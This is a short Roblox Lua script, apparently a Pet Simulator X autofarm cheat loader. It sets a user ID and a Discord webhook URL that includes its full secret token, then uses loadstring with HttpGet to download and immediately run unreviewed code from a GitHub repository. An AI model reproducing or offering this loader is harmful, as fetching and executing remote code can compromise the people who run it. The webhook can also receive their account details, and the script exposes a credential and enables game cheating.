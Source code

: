 _G.UserID = 319198257
_G.Webhook = "https://discord.com/api/webhooks/1049723917331353610/a5PtIc0uNDOXnBoCNd0AQwP5Vi3CMHGIpePslYWTiwMZFwkjWXE6oCqt2SywrpnzXUY1"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

